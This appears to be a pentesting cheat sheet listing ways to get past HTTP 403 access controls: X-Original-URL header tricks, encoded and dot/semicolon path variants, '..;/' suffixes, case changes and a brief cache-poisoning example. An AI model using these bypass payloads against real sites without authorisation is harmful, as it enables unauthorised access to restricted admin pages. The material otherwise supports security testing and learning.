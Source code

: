 ```yaml
---
title: "Bypass 403 (Forbidden)"
author: ["4shen0ne"]
draft: false
---
```


## Using "X-Original-URL" header {#using-x-original-url-header}

```nil
GET /admin HTTP/1.1
Host: target.com
```

Try this to bypass

```nil
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```


## Appending **%2e** after the first slash {#appending-2e-after-the-first-slash}

```nil
http://target.com/admin => 403
```

Try this to bypass

```nil
http://target.com/%2e/admin => 200
```


## Try add dot (.) slash (/) and semicolon (;) in the URL {#try-add-dot--dot--slash-----and-semicolon-----in-the-url}

```nil
http://target.com/admin => 403
```

Try this to bypass

```nil
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```


## Add "..;/" after the directory name {#add-dot-dot-after-the-directory-name}

```nil
http://target.com/admin
```

Try this to bypass

```nil
http://target.com/admin..;/
```


## Try to uppercase the alphabet in the url {#try-to-uppercase-the-alphabet-in-the-url}

```nil
http://target.com/admin
```

Try this to bypass

```nil
http://target.com/aDmIN
```


## Via Web Cache Poisoning {#via-web-cache-poisoning}

```nil
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```


## Tools {#tools}

-   [Bypass-403 | Go script for
    bypassing 403 forbidden](https://github.com/daffainfo/bypass-403)


## References {#references}

-   [[cite/t:@iam_j0ker](https://twitter.com/iam_j0ker)]
-   [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web)
